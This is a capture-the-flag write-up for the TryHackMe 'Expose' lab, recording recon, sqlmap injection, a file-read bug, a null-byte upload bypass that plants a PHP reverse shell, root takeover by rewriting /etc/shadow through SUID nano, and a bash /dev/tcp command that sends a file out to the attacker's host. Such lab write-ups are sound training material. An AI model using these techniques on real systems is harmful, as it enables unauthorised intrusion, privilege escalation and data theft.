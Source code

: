 # Info
**Completed 02/04/2024** 

https://tryhackme.com/room/expose

**Devices:** 
My Kali VM: 10.6.23.137 
Expose VM: 10.10.209.238 

**Flags:** 
1. /home/zeamkish/flag.txt: THM{USER_FLAG_1231_EXPOSE}
2. /root/flag.txt: THM{ROOT_EXPOSED_1001}

# **Recon**
## nmap 
- Nmap
- Ran `nmap -sT -p- 10.10.209.238` to check open ports
	- -p- checks all ports (1-65535)
- Found ports 21, 22, 53, 1337, and 1883 open
- Refining the scan with `nmap -sT -sV -p 21,22,53,1337,1883 10.10.209.238` reveals running services
- Port 1337/tcp is running an Apache web server
## gobuster
- Running `gobuster dir -u http://10.10.209.238:1337 -w /usr/share/wordlists/dirb/big.txt` gives initial URLs to check
- Found `/admin_101`, `/admin`, and `/phpmyadmin` from the scan

# **User Flag**
- Navigating to `http://10.10.209.238:1337/admin_101` reveals a login form with the email already filled in as `hacker@root.thm`
## SQL Injection
- The CTF specifically lists sqlmap as a provided tool, so let's check for SQLi vulnerabilities
- We submit a random password and capture the request in Burp Suite for analysis
- Right click > Save item, save in challenge folder as `req` (or any other name)
### sqlmap
- Run `sqlmap -r req --dump` to automatically run a scan using info from the request itself
- Say yes to limiting tests to MySQL-specific ones only
- When a hashed password is found, say yes to brute forcing it, revealing the password `easytohack`
- ASCII tables will be output near the end showing the located information from the SQLi attacks
- `/file1010111/index.php` uses `easytohack` as its password
- `/upload-cv00101011/index.php` requires a username starting with Z
## Query Parameter Injection
- Upon visiting `/file1010111/index.php` we are told to fuzz for parameters
- Checking the page source, there is a hint to use `file` or `view` as GET parameters
- If we add `?file=/etc/passwd` to the end of the URL, the contents are output on the page, revealing a user named `zeamkish`
- We can now go to `/upload-cv00101011/index.php` and provide the password of `zeamkish`
## PHP Reverse Shell
### Uploading the reverse shell
- There is a file upload prompt, and checking the page source reveals that only .png and .jpg files are accepted. We want a PHP Reverse Shell, so it's time to experiment
- Uploading a normal .png file leads to a page telling us to check the page source for the location that it was uploaded to, which is provided as `/upload_thm_1001`
- Navigating to `/upload-cv00101011/upload_thm_1001` reveals a file tree including the uploaded image, which we can view
- Next, I made a copy of `/usr/share/webshells/php/php_reverse_shell.php` (PHP Reverse Shell) in my CTF directory, and renamed it to `shell.phpD.png`
	- I set the target IP to my own and the port to 53 since it is unlikely to be blocked by outbound firewalls
	- I chose the file for upload, set Burp Suite proxy to intercept, and clicked the upload button
	- With the request in Burp Suite, I replaced the 'D' in the file name with a null byte (hex 00, ignoring the .png afterwards), and forwarded the request along
	- The file uploads successfully, and it is visible in `/upload_thm_1001`
### Using the reverse shell
- I set up a listener with `nc -lvnp 53`, then clicked on the `shell.php` file on the page
	- The reverse shell runs and netcat catches the connection, giving us shell access
	- I ran `python3 -c 'import pty; pty.spawn("/bin/bash")'`, upgrading to a better shell environment
	- Running `whoami` reveals that I am currently the www-data user
## Getting the flag
- `ls /home/zeamkish` reveals two files: `flag.txt` and `ssh_cred.txt`
- flag.txt is inaccessible to this user, but ssh_cred.txt reveals the SSH password for zeamkish is `easytohack@123`
- With credentials in hand, I ran `ssh zeamkish@10.10.209.238` and logged into the zeamkish user account
    - `cat flag.txt` reveals the first flag, THM{USER_FLAG_1231_EXPOSE}
    
# **Root Flag**
## Privilege Escalation
- The only remaining flag is the root flag, so privilege escalation is necessary
    - `find / -perm -04000 -type f -ls 2>/dev/null` reveals programs that have their SUID set in useful ways
    - nano is in the list, which means we can both read _and write_ files with root privileges
    - I used `nano /etc/shadow` to check that I could edit a file outside of zeamkish's privileges, and it opened successfully
### Injecting a new password hash
- A rather aggressive method if privilege escalation in this case is to use openssl to create a new salted root password and insert it into `/etc/shadow`
    - Running `openssl passwd -1 -salt root 1234` outputs `$1$root$.fAWE/htZAqQge.bvM16O/`
    - We can use nano to open the shadow file again, replacing everything after "root:" and before ":xxxxx:0:xxxxx:x ::::" with the new value
- The root user now has the password `1234`, so we can login easily
    - I ran `su root` and entered the new password, logging in successfully
    - I was now under `/root/` and could use `cat flag.txt` to reveal the final flag, THM{ROOT_EXPOSED_1001}


# **Lessons Learned**
- Use `-p-` and different scan modes with nmap to ensure all relevant ports are located
    - I did not find port 1337 initially, which led me on a useless path trying to do something with FTP on port 21
    - Remember to also use `-sV` with specific ports of interest afterwards to enumerate running services
     - 
- Remember to use gobuster or other directory enumeration tools to check subdirectories after the root scan
    - May not find much of interest, may add tons of useful info
    - 
- Using Burp Suite to intercept all kinds of requests can come in handy
    - At the very least, it allows requests to be analyzed for anything unusual or exploitable
    - A saved request can be used to run sqlmap extremely easily
    - If a file uploader only accepts certain file extensions and we want to upload a malicious payload, name the file as `<name>`.`<invalid_ext>`X`valid_ext` (i.e. `shell.phpX.png`), intercept the HTTP POST request, set the X to a null byte (hex code 00), then forward it
	 - 
	
- Use [gtfobins](https://gtfobins.github.io/) to find privilege escalation vectors
    - Base searches off of output of `find / -perm -04000 -type f -ls 2>/dev/null`
    - If nano is in that list, you get the power to change anything you want
	- 
- Basic data exfiltration can be done through Bash
    - Set up a listener on port 80 with `nc -lvnp 80 > FILENAME` on the local machine (or proxy, whatever you have access to for exfiltration)
    - Run `bash -c 'echo -e "POST / HTTP/0.9\n\n$(<flag.txt)" > /dev/tcp/RHOST/RPORT` on the compromised machine
	    - (`RHOST` = 10.6.23.137 and `RPORT` = 80 in this case)
    - The target will send the file data as the body of an HTTP POST request, which your netcat listener receives and outputs to a new local file